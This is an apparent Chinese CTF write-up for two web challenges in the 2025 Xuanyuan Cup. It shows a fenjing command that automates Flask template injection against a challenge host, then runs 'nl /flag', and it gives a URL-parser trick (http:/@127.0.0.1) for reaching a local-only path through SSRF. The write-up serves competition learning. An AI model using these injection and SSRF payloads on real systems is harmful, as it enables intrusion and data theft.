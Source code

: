 ```yaml
---
title: "2025轩辕杯-WP"
description: "2025轩辕杯-WEB-题解,本次轩辕杯队伍排名情况如下，我们HnuSecStar排名第六欢迎大家关注 HnuSec 公众号 [官网](https://www.hnusec.com)"
date: 2025-05-15
tags:
  - "ctf"
  - "2025轩辕杯"
  - "wp"
  - "web"
authors:
  - "bx33661"
draft: false              # 设为 true 则为草稿
slug: "k8x9w26"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">



# 2025轩辕杯-WEB-题解

本次轩辕杯队伍排名情况如下，我们HnuSecStar排名第六

欢迎大家关注 HnuSec 公众号 [官网](https://www.hnusec.com)

## WEB
### ezflask
直接fenjing梭哈了

```plain
python -m fenjing crack --url "27.25.151.26:31121" --detect-mode fast --inputs name --method GET
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262821491-961036f4-6815-43c7-8c8b-e391bf9afda4.png)

执行命令,nl /flag

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262821429-64e0915b-c96d-4cbb-8a1b-7d9863d2c4ca.png)

### ezssrf1.0
```plain
?url=http:/@127.0.0.1/flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262821428-cf75aed2-1e1c-4112-bc59-5145a028c4b9.png)

访问目标 url

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1748262821471-82234b0e-b95f-446c-8c1f-bd98bc0d399f.png)
